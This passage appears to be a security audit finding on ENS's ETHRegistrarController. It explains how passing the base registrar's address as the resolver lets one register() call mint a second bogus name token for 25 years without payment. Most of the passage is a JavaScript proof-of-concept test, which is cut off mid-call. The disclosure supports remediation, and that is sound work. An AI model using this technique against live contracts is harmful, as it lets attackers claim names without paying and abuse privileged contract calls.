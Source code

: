 The single exploit I am showing is already very bad, but I expect there will be more if this is left in. An example of a potential hack is that some of the functions in other ENS contracts (which give the RegistrarController elevated privilege) have dynamic types as the first variables--if users can generate a hash that is a low enough number, they will be able to unlock more exploits in the ENS ecosystem because of how dynamic types are abi encoded.  Other developers will probably also trust the `ETHRegistrarController.sol`, so other unknown dangers may come down the road.

The exploit I made (full code in PoC) can mint another ENS entry and keep it for as long as it wants, without paying more--will show code below.

### Proof of Concept

Put this code in the `TestEthRegistrarController.js` test suite to run. I just appended this to tests at the bottom of file.

I called the `BaseRegistrarImplementation.register` function with the privileges of `ETHRegistrarController` by passing the base registrar's address as the `resolver` param in the `ETHRegistrarController.register` function call. I was able to set a custom duration at no additional cost.

The final checks of the PoC show that we own two new ENS entries from a single `ETHRegistrarController.register` call. The labelhash of the new bogus ENS entry is the nodehash of the first registered ENS entry.

```js
  it('Should allow us to make bogus erc721 token in ENS contract', async () => {
    const label = 'newconfigname'
    const name = `${label}.eth`
    const node = namehash.hash(name)
    const secondTokenDuration = 788400000 // keep bogus NFT for 25 years;

    var commitment = await controller.makeCommitment(
      label,
      registrantAccount,
      REGISTRATION_TIME,
      secret,
      baseRegistrar.address,
      [
        baseRegistrar.interface.encodeFunctionData('register(uint256,address,uint)', [
          node,
          registrantAccount,
          secondTokenDuration
        ]),
      ],
      false,
      0,
      0
    )
    var tx = await controller.commit(commitment)
    expect(await controller.commitments(commitment)).to.equal(
      (await web3.eth.getBlock(tx.blockNumber)).timestamp
    )

    await evm.advanceTime((await controller.minCommitmentAge()).toNumber())
    var balanceBefore = await web3.eth.getBalance(controller.address)

    let tx2 = await controller.register(
      label,
      registrantAccount,
      REGISTRATION_TIME,
      secret,
      baseRegistrar.address,
      [
        baseRegistrar.interface.encodeFunctionData('register(uint256,address,uint)', [
          node,
          registrantAccount,
          secondTokenDuration
```